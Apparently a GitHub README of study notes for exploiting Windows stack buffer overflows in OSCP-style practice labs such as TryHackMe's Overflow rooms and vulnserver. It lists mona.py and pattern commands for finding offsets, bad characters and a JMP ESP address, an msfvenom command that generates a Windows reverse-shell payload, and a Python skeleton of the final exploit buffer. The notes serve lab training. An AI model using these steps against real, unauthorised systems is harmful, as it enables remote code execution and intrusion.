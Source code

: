 - [ ] Set the config directory for files generated by mona.py `!mona config -set workingfolder c:\Users\x3rz\Desktop\%`
- [ ] Find the buffer that crashes the application. (connect.py)
- [ ] Find the offset loaction by sending circular pattern made by `pattern_create.py -l no_of_offset` then use `!mona findmsp -distance <no_of_offset>` to find the esp 		offset.
- [ ] Validate the offset (validate.py)
- [ ] Now you have offset time to find badchars. (badchars.py)
	- Generate a bytearray `!mona bytearray -cpb '\x00'` 
	- Send that generate code into application.
	- Then check the badchars `!mona cmp -a esp -f bytearray.bin`
	- Now check if 
		- We can see the bad characters are **"\x00\x07\x08\x2e\x2f\xa0\xa1"** but **not all of these** are bad chars. Occasionally bad chars cause the next byte to become corrupted or effect the rest of the string.
		- Because the idea is that the next byte is the corrupted one, we can surmmise that the invalid chars are ""\x08\x2f\xa1" making "\x00\x07\x2e\xa0" the actual bad chars. As I said we can test for this manually **By crafting bytearray again MUST SEE OVERFLOW9 from tryhackme oscp.**

- [ ] Find the JMP ESP by `!mona jmp -r esp -cpb 'no_of_badchars'`. or find them in modules by specifying modules that have similar name to application `-m`
- [ ] Set the intrrupt INT3 at the ESP by putting JMP ESP addr in EIP (intrrupt.py) {Use of struct to provide the address of JMP ESP in little endian}
- [ ] Now check when you sent 4 INT3 so they should reflect 4 or 3 INT3 then go for the shell otherwise if less than 3 then Append a character "Z" before ESP or after 		EIP.
- [ ] For the shell craft a payload from msfvenom `msfvenom -p wiondows/shell_reverse_tcp LHOST=IP LPORT=port EXITFUNC=thread -v shell_code -f py -b 'no_of_badchars'`

- [ ] Now most important thing in getting shell is bypasing GETPC means Get program counter which comes with the encoded payload from msfvenom. To do this we need to shift the ESP far away from actull position by subtraction bytes that are  multiple of 4  `ex: sub esp,0x10 i.e 0x10 = 16` 

- [ ] address you got from entring that assembly code in `metasm_shell.rb` 
	ex: you got 
	metasm > sub esp,0x10
			 "\x83\xec\x10"

- [ ] Now out shell requirements are ready. (shell.py)

Our Final payload buffer.

```python
buff = ""
buff += "A"*(offset_srp - len(buff)) # padding
buff += struct.pack("<I", ptr_jmp_esp) # SRP overwrite where EIP gets overwritten
buff += subtract_esp_10 # ESP points here 4 total intrrupts
buff += shell_code
buff += "D"*(total_len - len(buff)) # trailing padding
buff += "\n"
```

For further reference check out the obsdian notes.


## TIPS THAT MIGHT HELP


1. Increase the value of buffer x2 ex: 1024, 2048 and so on.
2. In some cases if you sent 4 INT3 but there you seeing 3 INT3 and then do one thing that is scroll up and check if they are still 3 or now they are 2 INT3 but now if you see 2 then try appeneding Z  after EIP and before esp
3. In the case of normal input like in Overflow1 or vulnserver then `\r\n` should be appeneded at the end of sending via python.
4. At the single commmand send do try adding `\n` e.i: buff += '\n'.
5. *From overflow2* : 

6. We can also use `!mona findmsp -distance 1000` here 1000 is equal to the number of buffer you sent like if 1024 then `!mona findmsp -distance 1024` it will find you the position of EIP automatically. after creating payload with offset_create.rb
7. If you think that you found right bad characters and still your payload doesnt work then try using this `!mona jmp -r esp -cpb <all_badchars>` use this jmp esp addr of this command.

